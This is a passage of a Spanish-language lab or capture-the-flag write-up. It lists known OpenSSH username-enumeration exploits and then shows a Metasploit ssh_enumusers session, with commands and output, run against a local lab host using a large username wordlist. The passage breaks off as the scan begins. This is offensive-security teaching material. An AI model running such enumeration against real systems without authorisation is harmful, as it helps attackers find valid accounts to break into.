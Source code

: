 ```ruby
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                                                   | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                                                             | linux/remote/45210.py
OpenSSH < 7.7 - User Enumeration (2)                                                                                                                       | linux/remote/45939.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
Podemos observar que, efectivamente, hay un par de vulnerabilidades conocidas.  Aquí puedes tomar dos caminos.
1. Utilizar alguna base de datos de CVEs para buscar algún script que poder ejecutar para explotarla.
2. Utilizar metasploit.

Yo decidí utilizar [metasploit](https://github.com/rapid7/metasploit-framework) en este caso añadiendo el parámetro -q para evitar el banner de inicio de la herramienta y así ganar más tiempo.
```ruby
❯ msfconsole -q
msf > use auxiliary/scanner/ssh/ssh_enumusers
[*] Setting default action Malformed Packet - view all 2 actions with the show actions command
msf auxiliary(scanner/ssh/ssh_enumusers) > show options 

Module options (auxiliary/scanner/ssh/ssh_enumusers):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CHECK_FALSE   true             no        Check for false positives (random username)
   DB_ALL_USERS  false            no        Add all users in the current database to the list
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5, socks5h, http, sapni, socks4
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         22               yes       The target port
   THREADS       1                yes       The number of concurrent threads (max one per host)
   THRESHOLD     10               yes       Amount of seconds needed before a user is considered found (timing attack only)
   USERNAME                       no        Single username to test (username spray)
   USER_FILE                      no        File containing usernames, one per line


Auxiliary action:

   Name              Description
   ----              -----------
   Malformed Packet  Use a malformed packet



View the full module info with the info, or info -d command.

msf auxiliary(scanner/ssh/ssh_enumusers) > set RHOST 172.17.0.2
RHOST => 172.17.0.2
msf auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
USER_FILE => /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
msf auxiliary(scanner/ssh/ssh_enumusers) > run
[*] 172.17.0.2:22 - SSH - Using malformed packet technique
[*] 172.17.0.2:22 - SSH - Checking for false positives
[*] 172.17.0.2:22 - SSH - Starting scan
```